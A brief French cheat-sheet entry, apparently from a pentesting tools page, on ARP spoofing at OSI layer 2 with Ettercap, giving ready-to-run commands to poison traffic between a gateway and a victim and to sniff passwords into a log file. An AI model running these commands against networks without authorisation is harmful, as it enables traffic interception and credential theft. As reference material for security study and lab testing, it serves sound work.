 OSI 2 (Liaison) : Ettercap
🛠 Attaque : ARP Spoofing
📌 Description : Redirige le trafic réseau vers une machine attaquante pour intercepter/modifier les données.
🔑 Commandes clés :
# Lancer Ettercap en mode texte
ettercap -T

# ARP Spoofing (cible: 192.168.1.1, victime: 192.168.1.2)
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.2//

# Sniffer les mots de passe
ettercap -T -M arp -i eth0 -L logfile

⚙️ Options utiles :
-T : Mode texte.
-M arp : Méthode ARP Spoofing.
-i : Interface réseau.
-L : Enregistrer les logs.
📌 Exemple :
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.2// -i eth0
